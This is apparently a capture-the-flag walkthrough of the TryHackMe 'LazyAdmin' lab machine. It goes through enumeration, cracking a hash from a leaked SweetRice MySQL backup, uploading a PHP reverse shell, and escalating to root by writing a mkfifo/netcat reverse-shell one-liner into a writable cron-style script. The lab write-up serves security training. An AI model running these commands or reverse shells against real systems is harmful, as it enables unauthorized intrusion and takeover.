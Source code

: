 # LazyAdmin

This was my first TryHackMe box. Lets see what I can discover!

## Port Enumeration

Started my hunt with a simple nmap scan:

```bash
➜  ~ export IP=10.10.151.48
➜  ~ sudo nmap -sC -sV -Pn -n $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-10 12:06 MDT
Nmap scan report for 10.10.151.48
Host is up (0.25s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.05 seconds
```

Port 22 was open using OpenSSH 7.2p2 and port 80 was hosting Apache 2.4.18

## Directory Enumeration

Utilized gobuster to enumerate directories on the IP:

```bash
➜  ~ gobuster dir -t 150 -u http://$IP -w Desktop/wordlist2.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.151.48
[+] Threads:        150
[+] Wordlist:       Desktop/wordlist2.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/10 12:49:13 Starting gobuster
===============================================================
/content (Status: 301)
```

Browsing to 10.10.151.48/content revealed a website that was built using SweetRice. 
gobuster on ```/content```:
```bash
➜  ~ gobuster dir -t 100 -u http://$IP/content -w Desktop/wordlist2.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.151.48/content
[+] Threads:        100
[+] Wordlist:       Desktop/wordlist2.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/10 12:47:14 Starting gobuster
===============================================================
/js (Status: 301)
/images (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)
/attachment (Status: 301)
```

I manually went through each directory in the browser, and /inc had a couple interesting files including a ```mysql_backup/``` folder. I grabbed the file inside and examined it. Found an interesting entry: ```"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb```. Looks like a hash. The only vulnerable "modern" hashing algorithms I know of are SHA1 and MD5, the latter being significantly easier to reverse, hell, I created a program in my Python Pentesting Repo to do it. Lo and Behold: ```Password123```. But where do we put this password? A potential hint within that webpage was "If you are the webmaster, please to go Dashboard > General > Website setting". Doing a quick google search for "sweetrice dashboard" I found a google image showing a location in ```/content/as```, one of the directories gobuster found!  Sure enough, there's a login page at ```/content/as```. Using user ```manager``` and password ```Password123``` I was able to get into the the dashboard! Huzzah!

Lets see what exploits SweetRice has:

## Exploitation

```bash
➜  ~ searchsploit sweetrice
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
SweetRice 0.5.3 - Remote File Inclusion       | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities    | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download     | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload       | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure           | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery  | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery  | php/webapps/40700.html
SweetRice < 0.6.4 - FCKeditor Arbitrary Fil   | php/webapps/14184.txt
```

What caught my eye was ```SweetRice 1.5.1 - Arbitrary File Upload       | php/webapps/40716.py```. Reading through it, we can use a PHP reverse shell to gain access!

Browsing through the dasboard I found in the ad section that you can upload ~~Ad~~ arbitruary code...lets upload a PHP reverse shell and get going!


I used pentestmonkey's PHP reverse shell I snagged from Github, pointed it to my internal private IP and listened on the default 1234 port:

```bash
curl 10.10.49.154/content/inc/ads/reverse_shell.php
```

and in another terminal tab, I set up a netcat listener: 
```bash
➜  ~ nc -l -p 1234          
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 01:11:12 up 6 min,  0 users,  load average: 0.47, 1.40, 0.81
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
cdrom
dev
etc
home
initrd.img
initrd.img.old
lib
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
'''

Now to complete the first challenge of the VM, find the user flag:

```bash
$ cd /home
$ ls
itguy
$ ls itguy
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
cat user.txt
THM{REDACTED}
```

## Post Exploitation/Elevating Priviledges

BOOM! After figuring out ```whoiam```, I ran sudo -L to see what commands I could run as ```sudo```

```bash
$ whoami
www-data
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

I see that this perl program simply ran a bash script located at ```etc/copy.sh```. Off we go there!

```bash
$ cd /etc
$ ls -lah | grep copy.sh
-rw-r--rwx   1 root root     81 Nov 29  2019 copy.sh
$ cat copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Well well well, would you look at that, there's already a one liner reverse shell that puts the 190 line long code I used above to shame. We can see we have permissions to read and write to the file, so lets overwrite that with our sexy info:


```bash
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.27.38 5554 >/tmp/f' >/etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl
rm: cannot remove '/tmp/f': No such file or directory
```

setup our listener in another terminal tab:

```bash
➜  ~ nc -l -p 5554 
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls
root.txt
# cat root.txt
THM{REDACTED}
```

And there she is folks! My first ever malicious root!!! Huzzah!